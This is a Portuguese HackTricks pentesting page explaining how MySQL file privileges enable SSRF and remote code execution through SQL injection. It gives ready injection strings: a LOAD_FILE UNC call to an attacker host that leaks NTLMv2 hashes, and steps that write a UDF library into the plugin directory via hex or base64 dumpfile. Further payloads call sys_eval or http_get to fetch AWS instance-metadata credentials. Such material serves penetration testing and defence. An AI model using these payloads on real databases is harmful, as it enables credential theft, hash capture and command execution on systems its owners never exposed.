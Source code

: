 # MySQL File priv para SSRF/RCE

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Participe do grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou do [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

### LOAD\_FILE/LOAD DATA/LOAD XML para SSRF

Todo artigo sobre exfiltração de dados Out of Band via SQL usará a função de string `LOAD_FILE()` para fazer uma requisição de rede. A função em si tem suas próprias limitações baseadas no sistema operacional em que é executada e nas configurações com as quais o banco de dados foi iniciado.

Por exemplo, se a variável global `secure_file_priv` não foi definida, o [valor padrão é definido como `/var/lib/mysql-files/`](https://dev.mysql.com/doc/mysql-installation-excerpt/5.7/en/linux-installation-rpm.html), o que significa que você só pode usar funções como `LOAD_FILE('filename')` ou `LOAD DATA [LOCAL] INFILE 'filename' INTO TABLE tablename` para ler arquivos do diretório `/var/lib/mysql-files/`. Para poder realizar leituras em arquivos fora deste diretório, a opção `secure_file_priv` tem que ser definida como `""`, o que só pode ser feito atualizando o arquivo de configuração do banco de dados ou passando o parâmetro de inicialização `--secure_file_priv=""` para o serviço do banco de dados.

No entanto, sob circunstâncias em que `secure_file_priv` está definido como `""`, deveríamos ser capazes de ler outros arquivos no sistema, assumindo permissões de leitura de arquivos e `file_priv` definido como `Y` em `mysql.user` para o usuário atual do banco de dados. No entanto, a capacidade de usar essas funções para fazer chamadas de rede é muito dependente do sistema operacional. Como essas funções são construídas apenas para ler arquivos, as únicas chamadas de rede relevantes que podem ser feitas são para caminhos UNC em hosts Windows, já que a [API `CreateFileA` do Windows que é chamada ao acessar um arquivo entende as convenções de nomenclatura UNC](https://docs.microsoft.com/en-gb/windows/win32/fileio/naming-a-file).

Então, se o banco de dados alvo estiver rodando em uma máquina Windows, a query de injeção `x'; SELECT LOAD_FILE('\\\\attackerserver.example.com\\a.txt'); -- //` resultaria [na máquina Windows enviando hashes NTLMv2 em uma tentativa de autenticar com o servidor controlado pelo atacante `\\attackerserver.example.com`](https://packetstormsecurity.com/files/140832/MySQL-OOB-Hacking.html).

Este Server Side Request Forgery, embora útil, é restrito apenas à porta TCP 445. Você não pode controlar o número da porta, mas pode ler informações de compartilhamentos configurados com privilégios de leitura completos. Além disso, como mostrado em pesquisas mais antigas, você pode usar essa capacidade limitada de SSRF para roubar hashes e retransmiti-los para obter shells, então é definitivamente útil.

### Funções Definidas pelo Usuário para RCE

Outra técnica interessante com bancos de dados MySQL é a capacidade de usar Funções Definidas pelo Usuário (UDF) presentes em arquivos de biblioteca externos que, se presentes em locais específicos ou no $PATH do sistema, podem ser acessadas de dentro do MySQL.

Você poderia usar uma SQL Injection para **escrever uma biblioteca (`.so` ou `.dll`** dependendo de Linux ou Windows), contendo uma Função Definida pelo Usuário que pode fazer requisições de rede/HTTP, que pode ser então invocada através de consultas adicionais.

Isso tem seu próprio conjunto de restrições. Baseado na versão do MySQL, que você pode identificar com `select @@version`, o diretório de onde os plugins podem ser carregados é restrito. MySQL abaixo de `v5.0.67` permitia que arquivos de biblioteca fossem carregados do caminho do sistema se a variável `plugin_dir` não fosse definida. Isso mudou agora e as versões mais recentes têm a variável **`plugin_dir`** definida para algo como `/usr/lib/mysql/plugin/`, que geralmente é de propriedade do root.

Basicamente **para você carregar uma biblioteca personalizada no MySQL e chamar uma função da biblioteca carregada via SQL Injection, você precisaria**:

* capacidade de **escrever no local** especificado em **`@@plugin_dir`** via SQL Injection
* **`file_priv`** definido como **`Y`** em `mysql.user` para o usuário atual do banco de dados
* **`secure_file_priv`** definido como **`""`** para que você possa ler os bytes brutos da biblioteca de um local arbitrário como a rede ou um diretório de uploads de arquivos em uma aplicação web.

Assumindo que as condições acima sejam atendidas, você pode usar a **abordagem clássica de transferir a** [**popular biblioteca UDF do MySQL `lib_mysqludf_sys`**](https://github.com/mysqludf/lib\_mysqludf\_sys) **para o servidor do banco de dados**. Você então seria capaz de fazer solicitações de comandos do sistema operacional como `cURL` ou `powershell wget` para realizar SSRF usando a sintaxe

`x'; SELECT sys_eval('curl http://169.254.169.254/latest/meta-data/iam/security-credentials/'); -- //`

Há muitas outras funções declaradas nesta biblioteca, uma análise das quais pode ser vista [aqui](https://osandamalith.com/2018/02/11/mysql-udf-exploitation/). Se você é preguiçoso como eu, pode pegar uma cópia desta biblioteca UDF, para o sistema operacional alvo, de uma instalação do metasploit do diretório `/usr/share/metasploit-framework/data/exploits/mysql/` e começar.

Alternativamente, bibliotecas UDF foram criadas especificamente para fornecer ao banco de dados a capacidade de fazer requisições HTTP. Você pode usar [MySQL User-defined function (UDF) para HTTP GET/POST](https://github.com/y-ken/mysql-udf-http) para fazer o banco de dados realizar requisições HTTP, usando a seguinte sintaxe

`x'; SELECT http_get('http://169.254.169.254/latest/meta-data/iam/security-credentials/'); -- //`

Você também pode [criar sua própria UDF e usá-la para pós-exploração também.](https://pure.security/simple-mysql-backdoor-using-user-defined-functions/)

De qualquer forma, você precisa transferir a biblioteca para o servidor do banco de dados. Você pode fazer isso de várias maneiras

1. Use a função de string `hex()` do MySQL ou algo como `xxd -p filename.so | tr -d '\n'` para converter o conteúdo da biblioteca para formato hexadecimal e depois despejá-lo no diretório `@@plugin_dir` usando `x'; SELECT unhex(0x1234abcd12abcdef1223.....) into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so' -- //`
2. Alternativamente, converta o conteúdo de `filename.so` para base64 e use `x';select from_base64("AAAABB....") into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so' -- //`

Se o `@@plugin_dir` não for gravável, então você está sem sorte se a versão for acima de `v5.0.67`. Caso contrário, escreva em um local diferente que esteja no caminho e carregue a biblioteca UDF de lá usando

* para a biblioteca `lib_mysqludf_sys` - `x';create function sys_eval returns string soname 'lib_mysqludf_sys.so'; -- //`
* para a biblioteca `mysql-udf-http` - `x';create function http_get returns string soname 'mysql-udf-http.so'; -- //`


Para automatizar isso, você pode usar o SQLMap que suporta [o uso de UDF personalizado através da opção `--udf-inject`](https://github.com/sqlmapproject/sqlmap/wiki/Usage).

Para SQL Injections cegos, você poderia redirecionar a saída das funções UDF para uma tabela temporária e depois ler os dados de lá ou usar [requisição DNS contrabandeada dentro de um comando `sys_eval` ou `sys_exec` curl](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration).

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Participe do grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou do [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
